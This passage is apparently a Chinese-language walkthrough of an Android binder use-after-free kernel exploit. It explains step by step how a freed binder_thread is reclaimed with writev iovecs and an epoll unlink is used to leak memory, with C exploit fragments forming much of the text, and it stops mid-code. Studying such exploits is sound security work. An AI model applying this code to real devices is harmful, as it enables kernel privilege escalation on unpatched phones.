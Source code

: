 首先申请一个 binder_fd,evemtpoll 的 fd, 开一个管道，将管道容纳的大小改为 PAGE_SIZE(0x1000)

```
    printf("[+] Setting up iovecs\n");


      if (!m_4gb_aligned_page) {
        printf("[+] Mapping 4GB aligned page\n");

        m_4gb_aligned_page = mmap(
                (void *) 0x100000000ul,
                PAGE_SIZE,
                PROT_READ | PROT_WRITE,
                MAP_PRIVATE | MAP_ANONYMOUS,
                -1,
                0
        );

        if (!m_4gb_aligned_page) {
            printf("\t[-] Unable to mmap 4GB aligned page\n");
            exit(EXIT_FAILURE);
        } else {
            printf("\t[*] Mapped page: %p\n", m_4gb_aligned_page);
        }
    }

    iovecStack[IOVEC_WQ_INDEX].iov_base = m_4gb_aligned_page;
    iovecStack[IOVEC_WQ_INDEX].iov_len = PAGE_SIZE;
    iovecStack[IOVEC_WQ_INDEX + 1].iov_base = (void *) 0x41414141;
    iovecStack[IOVEC_WQ_INDEX + 1].iov_len = PAGE_SIZE;
    
    printf("[+] Linking eppoll_entry->wait.entry to binder_thread->wait.head\n");

    epoll_ctl(m_epoll_fd, EPOLL_CTL_ADD, m_binder_fd, &m_epoll_event);

```

接着填写覆盖掉 binder_thread 的 iovc, 以及将 epoll 的节点链接到 binder_thread 上面去

```
  printf("[+] Freeing binder_thread\n");
    ioctl(m_binder_fd, BINDER_THREAD_EXIT, NULL);
    ssize_t nBytesWritten =  writev(pipe_fd[1],iovecStack,IOVEC_COUNT);

```

之后主线程 free 掉 binder_thread, 调用 witev 喷射到 free 后的 binder_thread 上面去，并将我们的 iovc 覆盖了 free 后的 binder_thread,

接着根据我们的 iovc 向管道写数据，在第 IOVEC_WQ_INDEX(也就是 10) 个 iovc 时堵塞，因为之前将管道大小设为 0x1000, 在 m_4gb_aligned_page 读取 0x1000 数据，写入管道后，管道堵塞，

接着执行子线程

```
    if(childPid == 0){


        sleep(2);
        printf("[+] Un-linking eppoll_entry->wait.entry from binder_thread->wait.head\n");

        epoll_ctl(m_epoll_fd, EPOLL_CTL_DEL, m_binder_fd, &m_epoll_event);
        nBytesRead = read(pipe_fd[0], dataBuffer, sizeof(dataBuffer));

        if (nBytesRead != PAGE_SIZE) {
            printf("\t[-] CHILD: read failed. nBytesRead: 0x%lx, expected: 0x%x", nBytesRead, PAGE_SIZE);
            exit(EXIT_FAILURE);
```